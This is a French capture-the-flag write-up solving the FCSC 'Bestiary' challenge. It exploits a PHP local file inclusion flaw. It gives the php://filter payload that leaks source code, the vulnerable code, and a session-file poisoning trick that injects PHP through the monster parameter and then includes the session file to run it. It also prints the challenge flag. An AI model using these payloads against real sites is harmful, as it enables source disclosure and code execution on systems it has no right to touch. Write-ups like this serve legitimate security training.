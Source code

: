 # Bestiary - 100 pts


# Énoncé 
> On vous demande simplement de trouver le flag.
>
>URL : http://challenges2.france-cybersecurity-challenge.fr:5004/
>
>Format du flag : FCSC{xxxx}
>

## Introduction

Ce challenge porte sur une faille de type LFI.


## Résolution

Dans un premier temps, regardons ce qu'il se passe sur la page web :

![bestiary](../images/bestiary.JPG)

Nous avons une liste déroulante permettant de choisir un "monstre" et d'afficher sa description.

en essayant de lancer la requête **?monster=test** on se rend compte de ce qu'il se passe, il y a un include("test") qui se fait.

```
Warning: include("test"): failed to open stream: No such file or directory in /var/www/html/index.php on line 33

Warning: include(): Failed opening '"test"' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 33
```

Ayant déjà eu affaire à cette faille sur un autre challenge, j'ai pensé de suite à l'utilisation d'un PHP filter, pour récupérer le code source de la page (encodé en base 64) grâce à ce payload :

```
?monster=**php://filter/read=convert.base64-encode/resource=login.php**
```

Une fois décodé, on a le code suivant :

```
<?php
	**session_save_path("./sessions/")**;
	session_start();
	include_once(**'flag.php'**);
?>
[...]
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && **strpos($monster, "flag") === False**)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
[...]

```

On remarque prémièrement qu'on a un fichier **flag.php**, on pourrait essayer de l'afficher de la même manière mais le soucis est qu'on a la fonction **strpos()** qui vérifie que la requête ne contient pas le mot "flag".

On voit également que PHP sauvegarde la session temporairement dans **"./sessions"**. Ce qui signifie que la dernière requête passée y est enregistrée.

Il nous suffit alors de récupérer notre cookie de session, ici **PHPSESSID=77a92d88fc8020c7059ac9c78243c53d**

Le dernier payload qu'on passe dans la requête se retrouve dans le fichier **./sessions/sess_77a92d88fc8020c7059ac9c78243c53d**

On comprend donc que pour récupérer le flag il va falloir réaliser 2 actions :

Premièrement, injecter dans l'URL la commande PHP voulue :

```
http://challenges2.france-cybersecurity-challenge.fr:5004/?monster=<?php include("fl"."ag.php"); echo $flag; ?>
```
Et enfin, inclure notre page de session, avec le code qu'on vient d'injecter qui va par conséquent être exécuté, et nous afficher le flag :

```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_77a92d88fc8020c7059ac9c78243c53d
```
**FLAG :  _FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}_**

